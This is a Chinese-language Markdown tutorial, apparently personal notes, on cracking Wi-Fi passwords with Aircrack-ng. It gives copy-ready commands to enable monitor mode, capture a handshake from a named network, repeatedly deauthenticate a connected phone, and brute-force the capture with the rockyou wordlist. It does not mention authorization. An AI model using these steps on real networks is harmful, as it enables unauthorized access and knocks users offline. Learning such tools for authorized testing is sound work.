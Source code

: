 # Aircrack基本使用

## 安装

kali发行版已经安装了所有东西：

```
sudo apt install aircrack-ng
```

> 官网下载地址：[Aircrack-ng - Downloads](https://aircrack-ng.org/downloads.html)
>
> 虚拟机使用：`虚拟机 -> 可移动设备 -> WLAN -> 连接`

## 基本使用

**查看网卡信息**：

```
ipconfig
```

> ![image-20250104134446674](img/Aircrack基本使用/image-20250104134446674.png)

**杀死干扰进程**：

```
sudo airmon-ng check kill
```

**开启网卡监听模式**：

```
airmon-ng start wlan0
```

> ![image-20250104134628914](img/Aircrack基本使用/image-20250104134628914.png)

**查看网卡信息**：

```
iwconfig
```

> wlan0mon网卡名加了mon则表示成功
>
> ![image-20250104134758345](img/Aircrack基本使用/image-20250104134758345.png)

**扫描WIFI**：

```
airodump-ng wlan0mon
```

> ![image-20250104135018975](img/Aircrack基本使用/image-20250104135018975.png)
>
> 参数含义：
>
> - `BSSID`：wifi的MAC地址
> - `PWR`：信号强弱程度，数值越小信号越强
> - `#DATA`：数据量，越大使用的人就越多
> - `CH`：信道频率（频道） 
> - `ESSID`：wifi的名称，中文可能会有乱码

### 数据抓取

```
// 输入
airodump-ng --bssid BSSID -c 信道频率 -w 抓包存储的路径 wlan0mon

// 例如：本次抓取的wifi名称：CMCC-DDtP
airodump-ng --bssid 10:58:87:2D:75:09  -c 3 -w /home/wifi2/test2 wlan0mon
```

> ![image-20250104135320875](img/Aircrack基本使用/image-20250104135320875.png)
>
> 注意：抓到握手包会在右上角展示地址

**强制踢用户下线**：

```
// 把查到的手机或者用户踢下线
aireplay-ng -0 0 -c 连接到WiFi的手机mac地址 -a bssid 网卡名（一般为wlan0mon）

// 例如
aireplay-ng -0 0 -c B8:27:C5:13:E6:BD -a 10:58:87:2D:75:09 wlan0mon
```

> ![image-20250104135935159](img/Aircrack基本使用/image-20250104135935159.png)
>
> 当使用`aireplay-ng`断开用户连接时。 需要ctrl+c断开后，用户才能自己连接上，否则用户的连接会被受限制

### 字典文件爆破

**aircrack-ng爆破**：

```
// 解压 /usr/share/wordlists/ 下的 rockyou.txt.gz 文件

gzip -d /usr/share/wordlists/rockyou.txt.gz

// aircrack-ng -w 字典路径 握手包路径
aircrack-ng -w /usr/share/wordlists/rockyou.txt /home/wifi2/test2-02.cap
```

> 抓包了几次，后缀就是代表`-n`，爆破需要使用cap文件
>
> ![image-20250104141106371](img/Aircrack基本使用/image-20250104141106371.png)

**wifipr爆破**：

![image-20250104142517275](img/Aircrack基本使用/image-20250104142517275.png)

通过密码字典进行哈希碰撞：

![image-20250104142615923](img/Aircrack基本使用/image-20250104142615923.png)

## 参考博客

- [aircrack-ng破解无线网络 - ZuiTaiPing - 博客园 (cnblogs.com)](https://www.cnblogs.com/zuitaiping/p/18280123)
- [conwnet/wpa-dictionary: WPA/WPA2 密码字典，用于 wifi 密码暴力破解 (github.com)](https://github.com/conwnet/wpa-dictionary)
- [IYATT-yx/WiFi-Password-Dictionary: WiFi 密码字典 (github.com)](https://github.com/IYATT-yx/WiFi-Password-Dictionary)
